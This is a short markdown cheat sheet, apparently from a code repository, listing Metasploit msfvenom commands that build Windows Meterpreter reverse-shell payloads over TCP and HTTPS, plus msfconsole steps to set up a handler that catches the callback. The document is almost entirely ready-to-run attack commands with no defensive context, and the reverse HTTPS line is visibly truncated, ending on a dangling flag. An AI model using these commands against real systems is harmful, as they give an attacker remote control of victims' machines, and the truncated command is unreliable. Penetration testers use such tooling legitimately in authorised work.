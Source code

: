 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

### Windows MeterpreterReverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o shell.exe
```

### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=* HttpProxyPass=* LHOST=10.0.0.1 LPORT=443 -b 
```

### MSF Console:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```

